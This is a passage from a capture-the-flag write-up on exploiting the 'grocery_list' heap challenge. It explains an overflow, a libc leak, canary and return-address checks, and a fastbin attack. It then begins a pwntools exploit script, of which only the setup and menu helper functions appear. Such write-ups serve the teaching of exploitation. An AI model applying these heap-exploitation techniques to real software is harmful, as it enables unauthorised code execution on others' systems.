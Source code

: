 ```
```
This will eventually lead to libc leak too, since `0x00007fffffffece0` contains the address of `__libc_start_main+241`. Ok, we have overflow, controlled pointer at stack, libc leak, is it done? Well, sadly, not yet. We should bypass some more protection on binary, stack canary and this custom protection at the end of `main` function.
```
if ( *(rbp+0x8) != (void *)bss_retAddr || *(rbp-0x20) != (void *)bss_retAddr )
    exit(1);
```
We can't use overflow and `dump_all` to leak canary, because at the end of buffer null byte appended. So, from this point it's just forging chunks and fastbin attack with different size (we still have medium and large sized fastbins to use), to leak canary, pie base, and stuff.

Wonder why I'm not using `__malloc_hook` or stuff like that? Well, sadly, no satisfied offset from any one_gadget RCE, simply we can't use `__malloc_hook` on this challanges, or is it(?).

## full exploit
```python
#!/usr/bin/env python
from pwn import *
import sys

gdbcmd = '''
b *{}+0x1283
'''

# context.terminal = 'kitty @ new-window --keep-focus sh -c'.split()

if sys.argv.__len__() == 3:
    r = remote(sys.argv[1], int(sys.argv[2]))
else:
    r = process(sys.argv[1], aslr=False, env={'LD_PRELOAD' : '/home/vagrant/ctf/nox/pwn/grocery_list/libc.so'})
    # r = process(sys.argv[1], aslr=False)
    gdb.attach(r, gdbcmd.format(0x555555554000))
    # r = process(sys.argv[1])

def dump_all():
    r.sendlineafter('7. Exit', '1')
    r.recvuntil('----------\n')
    content = r.recvuntil('\n----------', drop=True)
    content = content.splitlines()
    content = [x.split('. ')[1] for x in content]
    return content

def add_item(size, payload):
    r.sendlineafter('7. Exit', '2')
    r.sendlineafter('items?', str(size))
    r.sendlineafter('name:', payload)

def add_empty(size, count):
    r.sendlineafter('7. Exit', '3')
    r.sendlineafter('items?', str(size))
    r.sendlineafter('add?', str(count))

def remove_item(ID):
    r.sendlineafter('7. Exit', '4')
    r.sendlineafter('remove?', str(ID))

def edit_item(ID, payload):
    r.sendlineafter('7. Exit', '5')
    r.sendlineafter('edit?', str(ID))
    r.sendlineafter('name:', payload)
```